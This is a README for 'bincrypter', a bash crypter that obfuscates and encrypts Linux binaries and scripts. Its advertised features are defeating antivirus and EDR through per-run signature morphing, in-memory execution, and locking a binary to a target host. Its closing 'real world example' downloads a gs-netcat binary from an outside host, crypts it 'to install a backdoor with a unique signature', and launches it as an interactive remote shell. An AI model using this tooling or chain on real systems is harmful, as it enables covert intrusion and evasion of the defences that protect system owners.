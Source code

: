 # Privacy and copyright protection for your programs

## A Linux Binary Runtime Crypter - in BASH!

- Obfuscate & encrypt any ELF binary
- Obfuscate & encrypt any SHELL-script
- AV/EDR death: Morphing + different signature every time
- 100% in-memory. No temporary files
- Not soiling the filesystem
- Double or triple encrypt the same binary (or itself)
- Resulting binary is heavily obfuscated (`string` only shows garbage)
- Living off the Land (LotL): Only needs `/bin/sh` + `perl` + `openssl`
- Architecture agnostic: Works on x86_64, aarch64, arm6, mips, ...
- *Lock* a binary to a target system and make it fail to run anywhere else.

![exmaple](https://github.com/user-attachments/assets/c8eff8e4-f879-4017-9015-6422e03dd6ac)

Download:
```shell
curl -SsfL https://github.com/hackerschoice/bincrypter/releases/latest/download/bincrypter -o bincrypter
chmod +x bincrypter
./bincrypter -h
```

Example:
```shell
cp /usr/bin/id id
./bincrypter id
# Compressed: 68552 --> 24176 [35%]

./id
# uid=0(root) gid=0(root) groups=0(root)
```

Set a custom PASSWORD (optionally):
```shell
cp /usr/bin/id id
./bincrypter id foobar
# Compressed: 68552 --> 23860 [34%]

./id
# Enter Password: foobar
# uid=0(root) gid=0(root) groups=0(root)
```

Real world example (install a backdoor with a unique signature):
```shell
curl -SsfL "https://gsocket.io/bin/gs-netcat_mini-linux-$(uname -m)" | PASSWORD="foobar" ./bincrypter >gsnc
chmod +x gsnc
PASSWORD="foobar" GS_ARGS="-ilD -s ChangeMe" ./gsnc
```

---
Other great work:  
https://github.com/guitmz/ezuri  
https://github.com/upx/upx  

---
Join the fun: https://thc.org/ops  
bsky: [@hackerschoice.bsky.social](https://bsky.app/profile/hackerschoice.bsky.social)  
Mastodon: [@thc@infosec.exchange](https://infosec.exchange/@thc)





